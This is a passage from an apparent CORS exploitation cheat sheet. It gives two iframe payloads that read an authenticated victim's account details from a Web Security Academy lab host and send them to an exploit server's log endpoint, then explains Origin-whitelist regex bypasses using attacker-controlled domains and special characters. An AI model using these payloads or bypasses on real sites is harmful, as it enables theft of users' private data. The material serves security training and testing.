 ```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://acd11ffd1e49837fc07b373a00eb0047.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://exploit-accd1f8d1ef98341c0bc370201c900f2.web-security-academy.net//log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://acd11ffd1e49837fc07b373a00eb0047.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://exploit-accd1f8d1ef98341c0bc370201c900f2.web-security-academy.net//log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

### **Regexp bypasses**

If you found the domain _victim.com_ to be **whitelisted** you should check if _victim.com.**attacker.com**_ is **whitelisted also**, or, in case you can **takeover some subdomain**, check if _**somesubdomain**.victim.com_ is whitelisted.

### **Advance Regexp bypasses**

Most of the regex used to identify the domain inside the string will focus on alphanumeric ASCII characters and `.-` . Then, something like `victimdomain.com{.attacker.com` inside the Origin header will be interpreted by the regexp as if the domain was `victimdomain.com` but the browser (in this case Safari supports this character in the domain) will access the domain`attacker.com` .

The `_` character (in subdomains) is not only supported in Safari, but also in Chrome and Firefox!

**Then, using one of those subdomains you could bypass some "common" regexps to find the main domain of a URL.**

**For more information and settings of this bypass check:** [**https://www.corben.io/advanced-cors-techniques/**](https://www.corben.io/advanced-cors-techniques/) **and** [**https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397**](https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397)
